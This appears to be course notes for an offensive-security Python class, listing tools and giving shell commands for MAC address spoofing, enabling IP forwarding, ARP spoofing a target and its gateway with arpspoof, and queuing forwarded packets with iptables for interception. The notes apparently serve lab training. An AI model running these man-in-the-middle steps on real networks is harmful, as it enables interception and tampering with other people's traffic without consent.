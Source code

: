 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer
- DNS Spoofer
- Replace Download

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
 * exceptions in ubuntu 
 > as a normal user, you won't be able to write to the file due to insufficient permission.  
 Use sudo and bash:

```
 sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

 Use tee:

```
 echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets

To queue all request to number 0
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

to restore them
```
iptables --flush
```

--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

